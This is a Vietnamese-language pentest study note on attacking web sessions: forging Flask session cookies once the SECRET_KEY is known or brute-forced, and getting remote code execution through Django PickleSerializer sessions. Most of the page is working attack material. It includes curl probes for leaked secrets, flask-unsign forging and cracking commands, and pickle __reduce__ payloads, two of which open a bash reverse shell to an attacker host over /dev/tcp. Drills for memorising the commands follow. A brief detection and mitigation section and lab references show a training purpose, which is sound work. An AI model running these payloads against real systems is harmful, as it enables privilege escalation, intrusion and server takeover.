

> **Prerequisites**: [[16-python-pickle-rce|16. Python Pickle & __reduce__ RCE]]
> **Objectives**:
> - Decode và forge Flask session cookies khi biết `SECRET_KEY`
> - Brute-force weak `SECRET_KEY` với `flask-unsign`
> - Exploit Django `PickleSerializer` để RCE qua session cookie
> - Nhận biết `SECRET_KEY` leak vectors phổ biến

---

## Điều kiện khai thác

> [!note] Hai attack scenario khác nhau
> **Scenario A — Flask privilege escalation** (phổ biến hơn): Biết `SECRET_KEY` → forge session với elevated role. Không cần pickle — chỉ cần JSON session manipulation. Chỉ cần SECRET_KEY.
>
> **Scenario B — Django RCE** (nguy hiểm hơn): App dùng `PickleSerializer` (deprecated) + biết `SECRET_KEY` → craft malicious pickle session → RCE. Cần cả SECRET_KEY lẫn PickleSerializer.

---

## Cơ chế tấn công

### Flask Session Cookie Format

![[assets/img-19-flask-cookie-anatomy.png]]
*Hình 1: Flask cookie 3-part structure. Phần 1 là JSON payload, phần 3 là HMAC signature dùng SECRET_KEY. Nếu biết key → forge bất kỳ session nào.*

Flask dùng `itsdangerous` để sign session. Structure:
```
base64(JSON).base64(timestamp).HMAC-SHA1(SECRET_KEY, payload)
```

Lưu ý: **Flask session mặc định dùng JSON, không phải pickle** → chỉ privilege escalation, không phải RCE trực tiếp. RCE chỉ possible khi app dùng custom pickle-based session.

---

## Scenario A: Flask Session Forgery (Privilege Escalation)

### Bước 1 — Tìm Leak SECRET_KEY

```bash
# Vector 1: Debug mode bật
curl http://TARGET/__debugger__
curl http://TARGET/console  # Werkzeug debugger

# Vector 2: .env file expose
curl http://TARGET/.env
curl http://TARGET/app/.env
curl http://TARGET/.flask.env

# Vector 3: Source code / GitHub leak
curl http://TARGET/app.py
# Search GitHub: "SECRET_KEY" "flask" filename:config.py

# Vector 4: Spring Actuator (nếu hybrid app)
curl http://TARGET/actuator/env | python3 -m json.tool | grep -i secret

# Vector 5: Hardcoded trong code  
grep -r "SECRET_KEY\|secret_key" /app/ 2>/dev/null | grep -v ".pyc"

# Vector 6: Error message leakage
curl http://TARGET/nonexistent 2>&1 | grep -i "secret\|key"
```

### Bước 2 — Decode Current Session

```bash
# Install flask-unsign
pip3 install flask-unsign --break-system-packages

# Decode cookie (không cần key)
flask-unsign --decode --cookie "eyJ1c2VybmFtZSI6InVzZXIifQ.ZxKzQA.abc123"
# Output: {'username': 'user', 'role': 'guest', 'admin': False}
```

### Bước 3 — Forge Elevated Session

```bash
SECRET_KEY="dev_secret_key_123"  # Từ bước 1

# Forge admin session
flask-unsign --sign \
  --secret "$SECRET_KEY" \
  --cookie "{'username': 'admin', 'role': 'admin', 'admin': True}"

# Output: eyJ1c2VybmFtZSI6ImFkbWluIn0.ZxLabc.FORGED_SIGNATURE

# Deliver
curl http://TARGET/admin \
  -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.ZxLabc.FORGED_SIGNATURE"
```

### Bước 4 — Brute-Force Weak SECRET_KEY

```bash
# Common weak keys: "secret", "dev", "changeme", "flask_secret", app name...
flask-unsign --unsign \
  --cookie "eyJ1c2VybmFtZSI6InVzZXIifQ.ZxKzQA.abc123" \
  --wordlist /usr/share/wordlists/rockyou.txt \
  --threads 8

# Output: [*] Found secret key: 'mysecret'
# Time: typically < 5 min for common keys
```

---

## Scenario B: Django PickleSerializer RCE

### Phát Hiện Django PickleSerializer

```bash
# Dấu hiệu trong settings.py
grep -r "PickleSerializer\|SESSION_SERIALIZER" /app/ 2>/dev/null
# SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'

# Dấu hiệu trong cookie
# Django session cookie: sessionid=<random_string>
# Giá trị trong session store (DB/cache) có thể chứa pickle bytes
# Decode từ DB: base64-decode → gzip-decompress → pickle stream
```

### Craft Malicious Django Session

```python
#!/usr/bin/env python3
# forge_django_session.py

import pickle, os, gzip, base64, hmac, hashlib, json

SECRET_KEY = "django-insecure-abc123..."  # Từ settings.py
LHOST = "10.10.14.5"
LPORT = "4444"

class RCE:
    def __reduce__(self):
        cmd = f'bash -c "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"'
        return (os.system, (cmd,))

# Django PickleSerializer: gzip(pickle(session_dict)) then HMAC-signed
session_data = {"_auth_user_id": RCE()}
pickled = pickle.dumps(session_data)
compressed = gzip.compress(pickled)
encoded = base64.b64encode(compressed)

# Django signs session with SECRET_KEY
# Simplified signing (actual Django signing is more complex)
sig = hmac.new(
    SECRET_KEY.encode(),
    encoded,
    hashlib.sha256
).hexdigest()[:40]

session_value = f"{encoded.decode()}:{sig}"
print(f"Session value: {session_value}")
print(f"Set in DB or pass as cookie depending on session backend")
```

### Sử Dụng django-admin-session-forge Tool

```bash
# Easier: use existing tool
pip3 install django-pickle-session --break-system-packages

# Or manual via Django shell if code exec available:
python3 manage.py shell
>>> from django.contrib.sessions.backends.db import SessionStore
>>> s = SessionStore()
>>> import pickle, os
>>> class RCE:
...     def __reduce__(self): return (os.system, ("id > /tmp/pwn",))
>>> s["payload"] = RCE()
>>> s.save()
>>> print(s.session_key)  # Use this as sessionid cookie
```

---

## Biến thể & Bypass

### Flask — Time-Based Attack (Không Cần Brute)

```python
# flask-unsign có thể verify bằng timing nếu app leaks timing info
# Hầu hết apps không vulnerable — nhưng kiểm tra response time variance

# Thử danh sách common SECRET_KEY values:
COMMON_KEYS = [
    "secret", "dev", "development", "flask_secret", "changeme",
    "password", "admin", "supersecret", "yoursecretkey", "abc123",
    "SECRET_KEY", app_name, "flask", "app.secret_key"
]
for key in COMMON_KEYS:
    result = subprocess.run(
        ["flask-unsign", "--unsign", "--cookie", cookie, "--secret", key],
        capture_output=True, text=True
    )
    if "Valid" in result.stdout:
        print(f"[+] KEY FOUND: {key}")
```

### Django — File-Based Session (Alternative Attack)

```bash
# Nếu Django dùng file-based session (SESSION_ENGINE = django.contrib.sessions.backends.file)
# Và attacker có write access đến session directory:

# Viết malicious session file trực tiếp
python3 -c "
import pickle, os, gzip, base64
class R:
    def __reduce__(self): return (os.system, ('id > /tmp/p',))
import django.contrib.sessions.backends.file as sf
# Craft session key và write to SESSION_FILE_PATH
"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Flask Session Manipulation**

```bash
# Decode
flask-unsign --decode --cookie "SESSION_COOKIE_VALUE"

# Brute-force key
flask-unsign --unsign --cookie "SESSION_COOKIE" --wordlist rockyou.txt --threads 8

# Forge (after getting key)
flask-unsign --sign --secret "SECRET_KEY" --cookie "{'admin': True, 'username': 'admin'}"

# Legacy (pre-itsdangerous): manual decode
echo "SESSION.TIMESTAMP.SIG" | cut -d. -f1 | base64 -d
```

**Find SECRET_KEY**

```bash
# Common paths
for path in .env config.py settings.py app.py instance/config.py; do
  curl -s http://TARGET/$path | grep -i "secret_key\|SECRET_KEY"
done

# Debug endpoint
curl -s http://TARGET/__debugger__ | grep -i secret
```

**Django PickleSerializer RCE**

```python
import pickle, os, base64, gzip
class R:
    def __reduce__(self): return (os.system, ("bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'",))
raw = gzip.compress(pickle.dumps({"x": R()}))
print(base64.b64encode(raw).decode())
# Use as session value after proper Django signing
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — flask-unsign decode + forge**
Mục tiêu: gõ decode và forge commands không cần nhìn notes.

```bash
flask-unsign --decode --cookie "COOKIE"
flask-unsign --sign --secret "KEY" --cookie "{'admin': True}"
```

**Drill 2 — SECRET_KEY leak checklist từ memory**
Mục tiêu: liệt kê ít nhất 5 vectors mà không tra cứu.

```
.env · debug mode · source code · brute-force · error page · actuator
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Flask**: Nhiều session cookies với cùng user nhưng khác signature → brute-force đang diễn ra
> **Django**: `PickleUnpicklingError` trong logs → attacker đang thử malformed pickle sessions
> **Process**: Subprocess spawn từ Django web worker → pickle RCE thành công

> [!note] Mitigation
> - Flask: Dùng `SECRET_KEY` ngẫu nhiên mạnh (32+ bytes), không hardcode
> - Flask: Store sensitive state server-side (database), không trong cookie
> - Django 4.1+: Không dùng `PickleSerializer` — default `JSONSerializer` là safe
> - Rotate `SECRET_KEY` định kỳ → invalidate all existing sessions
> - Không expose debug endpoints (`DEBUG=False`) trong production

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Holiday** (Retired) | Node.js session manipulation (similar concept) |
| HTB | **Canape** (Retired) | Python session + deserialization |
| PortSwigger | **Manipulating serialized data types** | Session manipulation concept |
| Custom | **Vulnerable Flask app** | `SECRET_KEY = "dev"` → easy forge |
